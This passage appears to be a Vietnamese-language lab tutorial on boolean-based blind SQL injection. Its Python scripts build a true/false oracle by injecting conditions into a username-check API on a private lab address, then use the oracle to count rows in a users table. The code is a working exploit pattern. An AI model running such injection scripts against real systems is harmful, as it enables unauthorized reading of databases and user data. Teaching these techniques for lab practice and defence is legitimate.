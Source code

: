 **Lưu ý:**
- Phải dùng một username tồn tại sẵn (như **`maria`**) để đảm bảo phản hồi chính xác. Nếu dùng username không tồn tại, kết quả luôn là **`available`**, dù truy vấn là **`True`** hay **`False`**.

---

### **Ví dụ triển khai bằng Python**

Đoạn mã Python dưới đây minh họa cách thiết kế **Oracle**:

#### **Mã Python**
```python
#!/usr/bin/python3
import requests
import json
from urllib.parse import quote_plus

# Định nghĩa tài khoản mục tiêu
target = "maria"

# Hàm kiểm tra truy vấn `q` có kết quả là `True` hay `False`
def oracle(q):
    # Encode payload
    payload = quote_plus(f"{target}' AND ({q})-- -")
    # Gửi yêu cầu GET
    response = requests.get(f"http://192.168.43.37/api/check-username.php?u={payload}")
    # Phân tích phản hồi JSON
    result = json.loads(response.text)
    # Kiểm tra trạng thái trả về
    return result['status'] == 'taken'

# Kiểm tra hàm hoạt động đúng
assert oracle("1=1")  # True
assert not oracle("1=0")  # False
```

---

### **Thực hành: Tìm số hàng trong bảng `users`**

Sử dụng **Oracle** để xác định số hàng trong bảng **`users`**:

#### **Ý tưởng**
- Sử dụng truy vấn cơ sở: **`(SELECT COUNT(*) FROM users) > N`**, với **`N`** là số bạn kiểm tra.
- Tăng dần giá trị **`N`** cho đến khi phản hồi chuyển từ **`True`** sang **`False`**, bạn sẽ tìm được số hàng thực tế.

#### **Triển khai**
```python
# Tìm số hàng trong bảng `users`
def count_rows():
    count = 0
    # Tăng dần giá trị `count` đến khi Oracle trả về False
    while oracle(f"(SELECT COUNT(*) FROM users) > {count}"):
        count += 1
    return count

# Chạy hàm và in kết quả
rows = count_rows()
print(f"Số hàng trong bảng `users`: {rows}")
```

---